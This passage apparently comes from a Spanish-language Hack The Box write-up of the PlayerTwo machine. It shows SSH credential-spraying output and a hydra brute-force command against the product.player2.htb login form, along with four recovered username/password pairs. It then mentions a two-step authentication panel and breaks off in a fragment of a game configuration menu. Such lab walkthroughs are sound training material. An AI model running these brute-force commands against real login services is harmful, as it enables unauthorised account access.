 ```null
SSH         10.10.10.170    22     10.10.10.170     [-] mprox:ze+EKe-SGF^5uZQX Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] snowscan:Lp-+Q8umLW5*7qkc Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] snowscan:tR@dQnwnZEk95*6# Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] snowscan:XHq7_WJTA?QD_?E2 Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] snowscan:ze+EKe-SGF^5uZQX Authentication failed.
```

Sin embargo, las puedo validar al panel de autenticación de ```product.player2.htb```

```null
hydra -L users.txt -P passwords product.player2.htb http-post-form "/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-14 15:05:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking http-post-form://product.player2.htb:80/:username=^USER^&password=^PASS^&Submit=Sign+in:alert
[80][http-post-form] host: product.player2.htb   login: mprox   password: tR@dQnwnZEk95*6#
[80][http-post-form] host: product.player2.htb   login: 0xdf   password: XHq7_WJTA?QD_?E2
[80][http-post-form] host: product.player2.htb   login: jkr   password: Lp-+Q8umLW5*7qkc
[80][http-post-form] host: product.player2.htb   login: snowscan   password: ze+EKe-SGF^5uZQX
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-14 15:06:00
```

Son válidas, pero después hay un panel de autenticación en dos pasos

<img src="/writeups/assets/img/PlayerTwo-htb/4.png" alt="">


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test